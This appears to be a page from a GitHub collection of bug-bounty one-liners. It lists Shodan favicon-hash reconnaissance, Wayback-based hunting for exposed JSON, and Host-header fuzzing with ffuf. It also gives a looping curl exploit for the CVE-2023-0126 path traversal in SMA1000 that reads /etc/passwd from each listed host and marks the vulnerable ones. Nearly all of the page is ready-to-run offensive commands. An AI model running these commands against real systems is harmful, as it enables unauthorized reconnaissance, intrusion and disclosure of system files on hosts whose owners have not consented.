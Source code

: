 ## Installation Requirements
1. Shodan      : https://www.shodan.io

## OneLiner
```
shodan search org: "Target" http.favicon.hash:116323821 --fields ip_str,port--separator | awk '{print $1 $2}'
```

────────────────────────────────────────────────────────────────────────

# Easiest Information Disclosure in JSON body

## Installation Requirements
1. Waybackurls  : https://github.com/tomnomnom/waybackurls
2. HTTPX       : https://github.com/projectdiscovery/httpx

## OneLiner
```
cat subdomains.txt | waybackurls | httpx -mc 200 -ct | grep application/json
```

────────────────────────────────────────────────────────────────────────

# Fuzz with 127.0.0.1 as Host header 

## Installation Requirements
1. FFUF  : https://github.com/ffuf/ffuf

## OneLiner
```
ffuf -u https://target[.]com/FUZZ -H “Host: 127.0.0.1” -w /home/user/path/to/wordlist.txt -fs <regular_content_length>
```

────────────────────────────────────────────────────────────────────────

# CVE-2023-0126 Pre-authentication path traversal vulnerability in SMA1000

## OneLiner
```
cat file.txt| while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' && echo $host "is VULN";done
```
